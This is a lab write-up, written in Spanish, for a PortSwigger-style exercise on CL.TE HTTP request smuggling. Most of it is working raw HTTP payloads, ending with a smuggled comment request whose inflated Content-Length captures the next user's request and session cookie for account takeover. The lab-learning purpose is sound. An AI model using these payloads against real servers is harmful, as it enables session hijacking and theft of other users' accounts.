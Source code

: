 # Exploiting HTTP request smuggling to capture other users' requests
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

Primero procedemos a testear si es posibile utilizar nuestras dos cabeceras preferidas:
~~~
POST / HTTP/1.1
Host: Portsqiger-lab
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
~~~
El time out significa que es CL.TE, el front-end está priorizando el content-length y el backend da un time out porque nunca recibe un 0 que indique que la solicitud terminó.
La primera request dió 200, la segunda me dió 404, lo cual no era lo que estperaba, ya que creía que había un panel admin, pero de todas maneras confirma que es vulnerable
~~~
POST / HTTP/1.1
Host: 0afa00f403658df58014c11e00550063.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Content-Length: 3
Content-Type: application/x-www-form-urlencoded

x=
~~~
Hay que explotar la parte de enviar comentario, por lo que la concateno a la pestaña de HTTP SMUGGLING, y todo parece marchar correctamente
```
POST / HTTP/1.1
Host: 0afa00f403658df58014c11e00550063.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 358
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0afa00f403658df58014c11e00550063.web-security-academy.net
Cookie: session=OqKTGdgxEMBuvPzH5P7C51DewTxRSjr9
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

csrf=tDGVNIcATnxBgEihKNKOCOCsDpoKI2Vq&postId=7&name=qwtre&email=qwerw%40gmail.com&website=http%3A%2F%2Fyeg6wpk2ywy45wjx5i0go9oii9o0ct0i.oastify.com&comment=sd
```
Me aseguro de tener el coment al final, Porque? porque volveremos a recurrir a lo mismo, la request se concatenará, con suerte al admin, y "pescaremos" su solicitud.
Así que seleccionames una solituc normal para saber cuantos bytes son, 707 y lo incluimos en el content length de nuestra solicitud para "pescarla", 827.
```
POST / HTTP/1.1
Host: 0afa00f403658df58014c11e00550063.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 358
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0afa00f403658df58014c11e00550063.web-security-academy.net
Cookie: session=OqKTGdgxEMBuvPzH5P7C51DewTxRSjr9
Content-Type: application/x-www-form-urlencoded
Content-Length: 827

csrf=tDGVNIcATnxBgEihKNKOCOCsDpoKI2Vq&postId=7&name=qwtre&email=qwerw%40gmail.com&website=http%3A%2F%2Fyeg6wpk2ywy45wjx5i0go9oii9o0ct0i.oastify.com&comment=sd
```
De esta manera la pestaña apodada "resend" tiene que tener masomenos 827 bytes para que se concatene e iremos creando comentarios. La respuesta de los comentarios en un 302 not modified, asi que enviaremos hasta obtener una respuesta de 200, lo cual significa que la request de alguien más fue capturada. Como todas las respuestas son escritas en un post, tenemos que buscar en dichos comentarios el header "Cookie: ", si vemos la request cortada es porque la request es más larga de lo estimado, así que debemos cambiar el content length de la pestaña de ataque hasta que la incluya. Si incluimos esta cookie en la parte de "storage" dentro del inspector el laboratorio se dará por resuelto
